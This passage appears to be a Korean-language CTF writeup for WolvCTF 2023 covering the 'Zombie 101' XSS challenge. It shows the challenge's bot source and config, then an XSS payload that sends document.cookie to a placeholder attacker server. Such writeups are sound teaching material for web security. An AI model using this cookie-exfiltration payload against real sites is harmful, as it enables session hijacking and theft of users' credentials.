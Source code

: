 ```yaml
---
title: '[CTF][WolvCTF 2023] Writeup'
author: hoppi
date: 2023-03-21 01:21:00 + 0000
categories: [CTF]
tags: [ctf, wolvctf_2023, web, osint, misc]
---
```

주말동안 `WolvCTF 2023`에 참여하였습니다. 다른 할 일이 있어서 많은 시간을 들이지는 못했지만 이번에는 web 문제를 한 번씩 찍먹해봐서 다행입니다. 제가 풀어본 문제와 찍먹 했는데 풀지 못했던 것들을 다른 분들의 롸업을 참고하여 적어봅니다.(제가 푼 건 `solved`라고 달아놓았습니다)  

# Web
***


## Zombie 101 (100pt)(solved)
***
zombie 시리즈는 `모두 같은 소스코드에 필터링 없는 XSS 문제`로 플레그만 가져오면 됩니다. 하지만 문제마다 `config`의 설정이 살짝살짝 다릅니다. 먼저 `bot.js`는 아래와 같습니다. 봇의 쿠키에 플레그가 담겨있습니다.  
```javascript
const zombie = require("zombie")

const browser = new zombie ({
    waitDuration: 5*1000,
    localAddress: 0 // without this, calls to localhost fail!
})

const httpOnly = process.argv[2] === 'true'
const hostname = process.argv[3]
const url = process.argv[4]

browser.setCookie({ name: 'flag', domain: hostname, path:'/', value: process.env.FLAG, httpOnly: httpOnly})

browser.visit(url, function() {
    console.log("Visited: ", url)
})  
```
{: file='bot.js'}
<br/>

`101`의 경우, 아래처럼 `httpOnly`가 `false`이기 때문에 `document.cookie`를 이용하여 플레그를 가져올 수 있습니다.  
```plaintext
configFile: '{"flag": "wctf{redacted}", "httpOnly": false, "allowDebug": true}'
```
{: file='docker-compose.yml'}
<br/>

```python
PAYLOAD = '<script>location.href="https://YOUR_SEVER/?f="%252bdocument.cookie</script>'
```
{: file="z1.py"}
<br/>
